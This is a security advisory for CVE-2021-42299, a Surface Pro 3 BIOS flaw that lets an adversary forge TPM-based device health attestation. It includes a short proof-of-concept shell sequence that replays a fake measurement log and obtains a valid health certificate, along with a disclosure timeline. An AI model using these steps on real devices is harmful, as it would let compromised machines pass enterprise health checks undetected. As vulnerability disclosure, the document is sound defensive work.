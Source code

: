 ```yaml
---
title: 'Surface Pro 3: BIOS False Health Attestation (TPM Carte Blanche)'
severity: High
ghsa_id: GHSA-c4qg-jj77-rcc3
cve_id: CVE-2021-42299
weaknesses: []
products:
- ecosystem: n/a
  package_name: Surface Pro 3 BIOS
  affected_versions: 3.11.2550
  patched_versions: ''
cvss: null
credits:
- github_user_id: chrisfenner
  name: Chris Fenner
  avatar: https://avatars.githubusercontent.com/u/61842497?s=40&v=4
---
```


### Summary
On affected Surface Pro 3 BIOS versions, when both SHA1 and SHA256 PCR banks are enabled, the SHA256 bank is not extended. This allows an adversary to falsify TPM-based health attestation by extending fake measurements into the TPM and getting a valid quote over the fake measurements.

### Severity
HIGH - An adversary running on an affected BIOS can falsely attest any desired health attestation it wants, including a state corresponding to a "fixed" BIOS.

### Proof of Concept
```shell
# Extend the fake log
sudo dhatool --log=path/to/log/file --bank=sha256 replay
# Self test
sudo attest-tool --log=path/to/log/file self-test
# Get AIK cert
sudo akcli
# Fetch a health cert
sudo dhatool --log=path/to/log/file --bank=sha256 --aik=path/to/aik getcert
# Validate the health cert against DHA with the current time as a nonce
NONCE=$(echo "obase=16; $(date +%s%N)" | bc); echo ${NONCE}
# normally the MDM generates a nonce, asks the device for claims and then validates against DHA
sudo dhatool --cert-path/to/healthcert --bank=sha256 --aik=path/to/aik --nonce=$NONCE validate
```

### Further Analysis
For more information, see https://github.com/google/security-research/blob/master/pocs/bios/tpm-carte-blanche/readme.md

### Timeline
**Date reported**: To Microsoft: 2021-05-26; to AMI: 2021-05-26; to TianoCore: 2021-07-19
**Date fixed**: In TianoCore: [2021-07-29](https://edk2.groups.io/g/devel/message/78382)
**Date disclosed**: 2021-10-18